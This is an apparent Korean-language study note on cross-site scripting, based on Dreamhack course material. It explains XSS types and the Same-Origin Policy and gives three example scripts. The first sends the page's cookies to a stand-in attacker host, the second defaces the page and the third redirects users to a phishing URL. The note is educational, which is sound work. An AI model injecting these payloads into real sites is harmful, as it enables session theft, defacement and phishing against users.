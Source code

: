 # **Dreamhack XSS**
- xss는 Cross Site Scripting로써 클라이언트 사이드 취약점 중 하나로, 공격자가 웹 리소스에 악성 스크립트를 삽입해 이용자의 웹 브라우저에서 해달 스크립트를 실행할 수 있다

- 공격자는 이 취약점을 통해 특정 계정의 세션 정보를 탈취하고 해당 계정으로 임의의 기능을 수행할 수 있다. (ex. 드림핵 웹 페이지에 xss취약점이 존재하면 https://dreamhack.io 내에서 오리진 권한으로 악성 스크립트를 삽입하는것, 그후 이용자가 악성 스크립트가 포함된 페이지를 방문하면 공격자가 임의로 삽입한 스크립트가 실행되어 쿠키 및 세션이 탈취될 수 있다.)

**xss의 종류**
```
 Stored XSS : XSS에 사용되는 악성 스크립트가 서버에 저장되고 서버의 응답에 담겨오는 XSS

 Reflected XSS : XSS에 사용되는 악성 스크립트가 URL에 삽입되고 서버의 응답에 담겨오는 XSS

 DOM-based XSS : XSS에 사용되는 악성 스크립트가 URL Fragment에 삽입되는 XSS (Fragment는 서버 요청, 서버 응답에 포함되지 않는다.)

 Universal XSS : 클라이언트의 브라우저 혹은 브라우저의 플러그인에서 발생하는 취약점으로 SOP 정책을 우회하는 XSS

*SOP란? : Same-Origin Policy의 약어로, 동일 출처 정책을     의미한다. 그리고 이것은 웹 보안 메커니즘 중 하나이며, 웹 브라우저에서 실행되는 스크립트가 다른 오리진(출처)의 리소스와 상호작용하는 것을 제한하는 정책이다. 이것이 있는 이유는 웹 보안을 강화하고 악의적인 스크립트로부터 사용자의 정보를 보호하기 위해 중요한 역할을 한다. 이 정책은 웹 브라우저에서 로드된 문서나 스크립트가 다른 도메인,프로토콜, 포트 번호에 있는 리소스에 접근하는 것을 제한한다.
    SOP의 원칙
    1. 동일한 프로토콜(예:HTTP,HTTPS)을 사용하는 경우
    2. 동일한 호스트 이름(예:www.example.com)을 가지는 경우
    3. 동일한 포트 번호를 사용하는 경우
```
**XSS의 예시**
- Figure 1. 쿠키 및 세션 탈취 공격 코드
```javascript
<script>
// "hello" 문자열 alert 실행.
alert("hello");
// 현재 페이지의 쿠키(return type: string)
document.cookie; 
// 현재 페이지의 쿠키를 인자로 가진 alert 실행.
alert(document.cookie);
// 쿠키 생성(key: name, value: test)
document.cookie = "name=test;";
// new Image() 는 이미지를 생성하는 함수이며, src는 이미지의 주소를 지정. 공격자 주소는 http://hacker.dreamhack.io
// "http://hacker.dreamhack.io/?cookie=현재페이지의쿠키" 주소를 요청하기 때문에 공격자 주소로 현재 페이지의 쿠키 요청함
new Image().src = "http://hacker.dreamhack.io/?cookie=" + document.cookie;
</script>
```
- Figure 2. 페이지 변조 공격 코드
```javascript
<script>
// 이용자의 페이지 정보에 접근.
document;
// 이용자의 페이지에 데이터를 삽입.
document.write("Hacked By DreamHack !");
</script>
```   
- Figure 3. 위치 이동 공격 코드
```javascript
<script>
// 이용자의 위치를 변경.
// 피싱 공격 등으로 사용됨.
location.href = "http://hacker.dreamhack.io/phishing"; 
// 새 창 열기
window.open("http://hacker.dreamhack.io/")
</script>
```

